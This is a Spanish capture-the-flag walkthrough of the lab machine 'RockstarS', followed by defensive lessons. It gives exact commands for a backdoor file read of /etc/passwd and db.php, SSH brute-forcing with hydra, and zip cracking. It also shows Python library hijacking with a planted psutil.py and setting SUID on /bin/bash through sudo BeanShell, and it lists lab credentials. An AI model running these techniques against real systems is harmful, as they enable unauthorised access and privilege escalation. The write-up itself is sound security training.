## Información General

|**Campo**|**Detalle**|
|---|---|
|**Nombre de la máquina**|RockstarS|
|**Plataforma**|TheHackersLabs|
|**Dificultad**|Media|
|**Sistema Operativo**|Linux (Debian 12)|
|**IP**|`192.168.241.161`|
|**Servicios expuestos**|SSH (22), HTTP (80)|

## Resumen del Ataque

La máquina aloja un servicio web Apache en blanco. Mediante fuzzing de directorios y parámetros se descubre una backdoor expuesta en `index.php` que permite la lectura arbitraria de archivos. A través de esta vulnerabilidad se extrae el código de `db.php`, obteniendo credenciales del usuario `shark` para acceder por SSH. Una vez dentro, se abusa de un binario con permisos `sudo` propiedad del usuario que permite ejecución arbitraria al sobrescribirlo, derivando en un movimiento lateral hacia `wvverez`.

Posteriormente, se transfiere un archivo comprimido `rubiales.zip` para crackear su contraseña con `john` e identificar una lista de posibles claves. Tras realizar fuerza bruta SSH con `hydra`, se obtiene acceso como el usuario `loseey`. Desde esta cuenta se realiza una técnica de **Python Library Hijacking** sobre un script de administración propiedad de `username3` para elevar privilegios a su cuenta. Finalmente, `username3` cuenta con permisos `sudo` sin contraseña sobre el binario `/usr/bin/bsh` (BeanShell), el cual permite ejecutar código Java arbitrario para otorgar permisos SUID a `/bin/bash` y escalar a permisos de `root`.

## Técnicas Usadas

- Reconocimiento de puertos y detección de versiones con Nmap

- Fuzzing de directorios y parámetros web (`feroxbuster` y `wfuzz`)

- Lectura de archivos arbitrarios a través de parámetro backdoor expuesto

- Extracción de credenciales hardcodeadas en código fuente PHP (`db.php`)

- Acceso inicial vía SSH

- Movimiento lateral mediante abuso de permisos `sudo` sobre binario modificable (`/home/shark/bof`)

- Exfiltración y crackeo de archivos comprimidos protegidos por contraseña (`zip2john` / `john`)

- Ataque de fuerza bruta de credenciales SSH con `hydra` y diccionario personalizado

- Escalada de privilegios mediante **Python Library Hijacking** (secuestro de librería local `psutil`)

- Abuso de interprete interactivo BeanShell (`/usr/bin/bsh`) con privilegios `sudo`

- Asignación de permisos SUID a `/bin/bash` para consecución de acceso root persistente

## Desarrollo

### 1. Escaneo de puertos completo

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.161
```



### 2. Escaneo de versiones

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.161
```


```
http://192.168.241.161/
```



### 3. Enumeración web

```
feroxbuster --url http://192.168.241.161/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js 
```



Se detecta la existencia de `index.html`, `index.php` y `db.php`.

### 5. Fuzzing de parámetros (Backdoor Discovery)

Realizamos un escaneo de parámetros sobre `index.php` utilizando `wfuzz` para comprobar si acepta entradas vulnerables:

```
wfuzz -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.241.161/index.php" -d "FUZZ=/etc/passwd" --hc 404 --hh 19 
```


### 6. Lectura arbitraria de archivos y exfiltración de credenciales

Haciendo uso del parámetro `backdoor` vía POST, leemos el contenido del archivo `db.php`:

```
curl -XPOST 192.168.241.161/index.php -d "backdoor=/var/www/html/db.php"
```



El archivo revela credenciales hardcodeadas:

- **Usuario:** `shark`

- **Contraseña:** `djbasdnbasdas&$AAAALLthl` 

### 7. Acceso inicial vía SSH

Conectamos por SSH empleando las credenciales encontradas:

```
ssh shark@192.168.141.161
```

```
shark@TheHackersLabs-RockstarS:~$ whoami
```



### 8. Movimiento lateral — De `shark` a `wvverez`

Enumeramos las reglas de `sudo` para el usuario `shark`:

```
shark@TheHackersLabs-RockstarS:~$ sudo -l
```



Comprobamos la información del archivo `/home/shark/bof`:

```
shark@TheHackersLabs-RockstarS:~$ file bof
```



Dado que el binario `/home/shark/bof` se encuentra en la carpeta personal de `shark` y tenemos permisos de escritura sobre él, sobrescribimos su contenido para ejecutar una shell `/bin/bash` al ser invocado con `sudo`:

```
shark@TheHackersLabs-RockstarS:~$ echo "bash" > bof 
shark@TheHackersLabs-RockstarS:~$ sudo -u wvverez /home/shark/bof 
```



Obtenemos acceso como el usuario `wvverez`.

### 9. Extracción y crackeo de `rubiales.zip`

En el directorio personal de `wvverez` encontramos un archivo comprimido:

```
wvverez@TheHackersLabs-RockstarS:/home/shark$ cd ..
wvverez@TheHackersLabs-RockstarS:/home$ cd wvverez/
wvverez@TheHackersLabs-RockstarS:~$ ls
```



Levantamos un servidor HTTP local en la máquina víctima para descargar el archivo a nuestro equipo atacante:

```
wvverez@TheHackersLabs-RockstarS:~$ python3 -m http.server 8080
```

```
wget http://192.168.241.161:8080/rubiales.zip 
```

```
unzip rubiales.zip                      
Archive:  rubiales.zip
[rubiales.zip] passwords.txt password: 
````

```
zip2john rubiales.zip > hash.txt
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```



El hash es crackeado exitosamente con la contraseña: `princess`.

Descomprimimos el archivo para obtener el diccionario de contraseñas `passwords.txt`:

```
unzip rubiales.zip
```



### 10. Fuerza bruta SSH hacia el usuario `loseey`

Inspeccionamos el contenido del diccionario obtenido:

```
cat passwords.txt 
```



Identificamos los usuarios del sistema operativo con acceso a shell interactiva en `/etc/passwd`:

```
wvverez@TheHackersLabs-RockstarS:~$ cat /etc/passwd | grep bash
```



Creamos una lista de usuarios (`users.txt`) conteniendo `wvverez`, `loseey` y `username3`, y ejecutamos un ataque de fuerza bruta por SSH utilizando `hydra` junto al diccionario `passwords.txt` extraído:

```
nano users.txt
```



```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.161 -t 4 
```

Credencial encontrada: `loseey:kmdalskdmasdnmaskj126`.

Cambiamos al usuario `loseey`:

```
wvverez@TheHackersLabs-RockstarS:~$ su loseey
```

### 11. Movimiento lateral de `loseey` a `username3` (Python Library Hijacking)

Navegamos al directorio de `loseey` e inspeccionamos los archivos existentes:

```
loseey@TheHackersLabs-RockstarS:/home/wvverez$ cd ..
loseey@TheHackersLabs-RockstarS:/home$ cd loseey/
loseey@TheHackersLabs-RockstarS:~$ ls
rubiales.py
```



Revisamos los permisos y el propietario del script:

```
loseey@TheHackersLabs-RockstarS:~$ ls -la rubiales.py
```



Analizamos el código fuente de `rubiales.py`:

```
loseey@TheHackersLabs-RockstarS:~$ cat rubiales.py 
```



El script importa el módulo `psutil`. Al poder ejecutar este comando como `username3` mediante `sudo`, creamos un archivo malicioso `psutil.py` en el mismo directorio de trabajo para provocar un secuestro de librería (**Python Library Hijacking**):

```
loseey@TheHackersLabs-RockstarS:~$ nano psutil.py
import os
os.system("bash")
```

```
loseey@TheHackersLabs-RockstarS:~$ sudo -u username3 /usr/bin/python3 /home/loseey/rubiales.py 
```



Obtenemos una shell interactiva como el usuario `username3`.

### 12. Escalada de privilegios a `root` Abuso de BeanShell (`bsh`)

Comprobamos los permisos `sudo` del usuario `username3`:

```
username3@TheHackersLabs-RockstarS:/home/loseey$ sudo -l
```



El usuario puede ejecutar `/usr/bin/bsh` como `root` sin proporcionar contraseña:

```
username3@TheHackersLabs-RockstarS:/home/loseey$ sudo -u root /usr/bin/bsh
```



Se abre la consola interactiva de **BeanShell 2.0b4**. Verificamos la ejecución de comandos dentro del entorno Java:

```
bsh % exec("id");
uid=0(root) gid=0(root) grupos=0(root)
bsh % 
```



Asignamos permisos SUID al binario `/bin/bash` mediante la consola de BeanShell:

```
bsh % exec("chmod +s /bin/bash");
```

Verificamos en el sistema que `/bin/bash` cuenta con el bit SUID activo:

```
username3@TheHackersLabs-RockstarS:/home/loseey$ ls -l /bin/bash
```



Ejecutamos `bash -p` para elevar privilegios definitivamente a `root`:

```
username3@TheHackersLabs-RockstarS:/home/loseey$ bash -p
```

```
bash-5.2# whoami
root
```



### Flag

```
bash-5.2# cd username3/
bash-5.2# cat user.txt 
```



```
bash-5.2# cd /root
bash-5.2# cat root.txt
```



## Lecciones Aprendidas

- **Inclusión y Lectura Arbitraria de Archivos (LFI / Backdoors):** Exponer funciones de lectura directa de archivos en el servidor web sin sanitización ni lista blanca permite la exfiltración de código fuente y credenciales críticas.

- **Credenciales Hardcodeadas:** Guardar datos de acceso en texto plano dentro de archivos PHP expone la infraestructura a accesos no autorizados inmediatos tras la lectura del archivo.

- **Permisos de Escritura sobre Binarios Sudoers:** Asignar permisos `sudo` sobre binarios ubicados en directorios donde el usuario común tiene permisos de escritura (como su propia home) invalida el control de seguridad, permitiendo la modificación del archivo y la ejecución arbitraria.

- **Python Library Hijacking:** Cuando un script Python se ejecuta con privilegios elevados (`sudo`), Python busca primero los módulos importados en el directorio actual. Si un usuario de menor privilegio puede escribir en ese directorio, puede secuestrar la librería y ejecutar código malicioso.

- **Consolas Interactivas Ejecutadas con Sudo:** Permitir el uso de intérpretes interactivos o shells como BeanShell (`bsh`) con privilegios `sudo` equivale a conceder acceso total como `root` debido a sus funciones nativas de ejecución de comandos del sistema operativo.

## Medidas de Mitigación

- **Eliminación de Backdoors y Sanitización Web:** Validar e implementar controles de acceso strictly en las entradas del aplicativo web, eliminando cualquier código de depuración o puerta trasera.
 
- **Gestión Segura de Credenciales:** Almacenar credenciales en variables de entorno o gestores de secretos fuera de la raíz web, y evitar el uso de claves por defecto o débiles.

- **Principio de Mínimo Privilegio en Sudoers:** Asegurar que los binarios indicados en la configuración de `sudoers` pertenezcan exclusivamente a `root` y estén ubicados en directorios de solo lectura para usuarios no privileged.

- **Protección del PYTHONPATH:** Definir rutas absolutas o especificar opciones de ejecución de Python que impidan la importación de librerías desde el directorio de trabajo actual al ejecutar scripts privilegiados.

- **Restricción de Intérpretes en Sudoers:** Evitar otorgar permisos `sudo` sobre binarios o intérpretes que posean funciones para invocar shells del sistema (según los vectores documentados en GTFOBins).


